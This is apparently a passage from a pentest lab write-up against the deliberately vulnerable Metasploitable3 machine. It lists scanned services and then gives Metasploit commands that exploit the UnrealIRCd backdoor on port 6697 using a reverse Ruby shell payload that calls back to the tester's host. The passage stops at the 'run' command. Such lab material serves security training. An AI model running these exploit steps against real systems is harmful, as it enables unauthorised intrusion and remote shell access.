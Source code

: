 ```none
msf > services
Services
========

host           port  proto  name         state   info
----           ----  -----  ----         -----   ----
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
192.168.19.20  22    tcp    ssh          open    OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 Ubuntu Linux; protocol 2.0
192.168.19.20  80    tcp    http         open    Apache httpd 2.4.7
192.168.19.20  445   tcp    netbios-ssn  open    Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.19.20  631   tcp    ipp          open    CUPS 1.7
192.168.19.20  3000  tcp    ppp          closed  
192.168.19.20  3306  tcp    mysql        open    MySQL unauthorized
192.168.19.20  3500  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
192.168.19.20  6697  tcp    irc          open    UnrealIRCd
192.168.19.20  8181  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
```

With these configurations set, we are ready to start exploiting vulnerabilities. Well, first finding the vulnerabilities... then exploiting them! The following sections discuss a pentest which is formatted into sections based on the port number of the service running on Metasploitable3.

## Port 6697: UnrealIRCd

I have previously encountered UnrealIRCd in Metasploitable2. Searching the Metasploit Framework database (using `search unrealircd`) only yielded one search hit. This was the same vulnerability and associated exploit used in Metasploitable2. The same of the exploit is:

- exploit/unix/irc/unreal_ircd_3281_backdoor

I could not determine the specific version on Metasploitable3, but decided to give the exploit a whirl:

```none
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost 192.168.19.10
lhost => 192.168.19.10

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lport 2345
lport => 2345

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
```
